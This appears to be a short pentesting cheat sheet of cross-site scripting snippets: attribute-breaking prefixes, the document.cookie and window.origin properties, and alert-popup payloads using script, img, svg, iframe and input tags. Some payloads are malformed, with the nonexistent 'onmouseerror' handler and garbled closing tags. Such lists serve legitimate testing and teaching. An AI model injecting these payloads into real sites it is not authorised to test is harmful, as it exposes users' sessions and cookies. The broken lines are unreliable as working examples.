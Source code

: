 # JavaScript

Search Tag(s): #helpers #webapp-pentesting #cross-site-scripting

Note: JavaScript code snippets are case insensitive.

## 01 - Prefix

```
>
'>
">
```

## 02 - JavaScript Cookie Properties

```
document.cookie
window.origin
document.cookie
```

## 03 - JavaScript Pop-Up Message

```
<script>alert(1)</script>
<script>print()</script>

<img src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>
<svg src="" onerror=alert(1)>
<img src=# onmouseerror=alert(1)>

<iframe src="" onerror=alert(1)>

<input autofocus onfocus="setTimeout(function() {alert(1)}, 5000);"></input><;/style<;/title<;/textarea<;/script>
```